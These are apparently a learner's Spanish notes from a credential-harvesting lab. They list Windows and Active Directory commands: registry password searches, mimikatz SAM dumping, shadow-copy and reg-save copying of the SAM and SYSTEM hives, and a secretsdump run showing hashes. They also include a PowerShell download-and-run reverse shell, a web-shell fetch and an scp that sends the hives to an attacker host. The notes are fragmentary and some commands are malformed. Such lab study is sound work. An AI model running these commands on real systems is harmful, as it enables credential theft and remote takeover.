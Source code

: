 
Machine IP: MACHINE_IP            Username: thm         Password: Passw0rd!


rdesktop -u thm -p Passw0rd! <IP_o_dominio>


xfreerdp /u:thm /p:Passw0rd! /v:10.200.48.101 /dynamic-resolution

## Como ejemplo de un comando de historial, un comando de PowerShell guarda los comandos ejecutados en un archivo de historial en un perfil de usuario, en la siguiente ruta: 

```bash
C:\Users\USER\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```


##  reg query que mencionas se utiliza para buscar contraseñas almacenadas en el registro de Windows (Registry). Es una técnica común en auditorías de seguridad o pruebas de penetración para encontrar credenciales guardadas de forma insegura. 


- reg query: Consulta el registro de Windows.
- HKLM o HKCU:
- HKLM (HKEY_LOCAL_MACHINE): Contiene configuraciones globales del sistema.
- HKCU (HKEY_CURRENT_USER): Contiene configuraciones específicas del usuario actual.
- /f password: Busca la cadena "password" (no distingue mayúsculas/minúsculas).
- /t REG_SZ: Filtra solo valores de tipo cadena (REG_SZ).
- /s: Realiza una búsqueda recursiva en todas las subclaves.



c:\Users\user> reg query HKLM /f password /t REG_SZ /s #OR

C:\Users\user> reg query HKCU /f password /t REG_SZ /s




a) Buscar en HKEY_LOCAL_MACHINE (HKLM)

reg query HKLM /f "flag" /t REG_SZ /s


HKLM: Clave del registro que almacena configuraciones globales del sistema.

/f "flag": Busca la cadena exacta "flag" (no distingue mayúsculas/minúsculas).

/t REG_SZ: Filtra solo valores de tipo cadena (texto).

/s: Búsqueda recursiva en todas las subclaves.

b) Buscar en HKEY_CURRENT_USER (HKCU)
cmd
reg query HKCU /f "flag" /t REG_SZ /s





reg query HKLM /f "flag" /t REG_SZ /s


password:  7tyh4ckm3



# Enumerar Usuarios y Verificar Descripciones
En AD, a veces las contraseñas se guardan accidentalmente en el campo description (descripción).
Puedes enumerarlo con estos métodos:

net user /domain




# Método 2: Con PowerShell (Más detallado)
powershell
Get-ADUser -Filter * -Properties Description | Where-Object { $_.Description -ne $null } | Format-Table Name,Description
Filtra usuarios con descripciones no vacías.

Si hay un usuario llamado "victim", revisa su descripción.

# Método 3: Búsqueda Directa de Contraseñas
powershell

Get-ADUser -Filter {Description -like “*password*”} -Properties * | Select-Object DistinguishedName, SamAccountName, Description



Import-Module ActiveDirectory
Get-ADUser -Filter * -Properties * | Select-Object DistinguishedName, SamAccountName, Description





Obenert el HASH NTLM

# usaremos wmic para crear una instantánea de volumen.
 cd

privilege::debug
token::elevate
lsadump::sam



wmic shadowcopy call create Volume='C:\'



IEX(New-Object Net.WebClient).DownloadString('http://10.8.163.249:8000/shell.ps1'); Invoke-PowerShellTcp -Reverse -IPAddress 10.8.163.249:8000 -Port 4444



curl -u http://10.8.163.249:8000/shell.php -o C:\xampp\htdocs\shell.php 




wmic shadowcopy call create Volume='C:\'

    Executing (Win32_ShadowCopy)->create()
    Method execution successful.
    Out Parameters:
    instance of __PARAMETERS
    {
        ReturnValue = 0;
        ShadowID = "{D8A11619-474F-40AE-A5A0-C2FAA1D78B85}";
    };


vssadmin list shadows



copy \\?GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\sam C:\users\Administrator\Desktop\sam

        1 file(s) copied.



copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\system C:\users\Administrator\Desktop\system
        1 file(s) copied.






reg save HKLM\sam C:\users\Administrator\Desktop\sam-reg


reg save HKLM\system C:\users\Administrator\Desktop\system-reg


scp * kali@10.8.163.249:/home/kali/.


└─$ impacket-secretsdump -sam sam-reg -system system-reg LOCAL  
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0x36c8d26ec0df8b23ce63bcefa6e2d821
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:98d3a787a80d08385cea7fb4aa2a4261:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[*] Cleaning up... 
                                                                                                                                                 
┌──(kali㉿kali)-[~/Downloads/CredentialsHarvesting]
└─$ 

